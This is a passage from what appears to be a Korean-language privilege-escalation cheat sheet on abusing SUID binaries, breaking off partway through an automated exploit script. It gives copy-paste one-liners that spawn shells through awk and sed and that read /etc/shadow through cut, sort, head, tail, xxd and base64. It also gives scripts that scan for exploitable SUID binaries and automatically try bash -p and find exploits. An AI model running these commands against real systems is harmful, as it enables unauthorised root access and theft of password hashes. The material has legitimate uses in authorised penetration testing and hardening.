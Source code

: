 ```bash
# awk가 SUID인 경우
/usr/bin/awk 'BEGIN {system("/bin/sh")}'

# sed가 SUID인 경우
/usr/bin/sed -n '1e exec sh 1>&0' /etc/hosts

# cut가 SUID인 경우 (파일 읽기용)
/usr/bin/cut -d "" -f1 /etc/shadow

# sort가 SUID인 경우 (파일 읽기)
/usr/bin/sort /etc/shadow

# head/tail이 SUID인 경우 (파일 읽기)
/usr/bin/head -c 1G /etc/shadow
/usr/bin/tail -c 1G /etc/shadow

# xxd가 SUID인 경우 (파일 읽기)
/usr/bin/xxd /etc/shadow | xxd -r

# base64가 SUID인 경우 (파일 읽기)
/usr/bin/base64 /etc/shadow | base64 --decode
```

## 🤖 자동화 도구 활용

### 🔍 GTFOBins 자동 체크 스크립트

```bash
# SUID 바이너리와 GTFOBins 매칭 (복붙용)
gtfobins_check() {
    suid_files=$(find / -type f -perm -4000 2>/dev/null)
    gtfobins_list="bash sh dash zsh fish csh tcsh ksh vim nano emacs ed view find locate python python3 perl ruby lua node nmap gdb strace ltrace more less man pager cp mv tar zip unzip 7z awk sed cut sort head tail xxd base64 nc netcat socat curl wget"

    echo "=== SUID files that are in GTFOBins ==="
    for binary in $gtfobins_list; do
        echo "$suid_files" | grep -q "/$binary$" && echo "FOUND: $(echo "$suid_files" | grep "/$binary$")"
    done
}

# 실행
gtfobins_check
```

### 🎯 즉시 익스플로잇 테스트 스크립트

```bash
# 발견된 SUID 바이너리 자동 테스트 (복붙용)
auto_suid_exploit() {
    echo "=== Testing common SUID exploits ==="

    # bash 테스트
    if [ -u /bin/bash ]; then
        echo "Trying bash -p..."
        /bin/bash -p -c 'id && echo "SUCCESS: bash -p worked!"'
    fi

    # find 테스트
    find_binary=$(find / -name "find" -type f -perm -4000 2>/dev/null | head -1)
    if [ ! -z "$find_binary" ]; then
        echo "Trying find exploit..."
```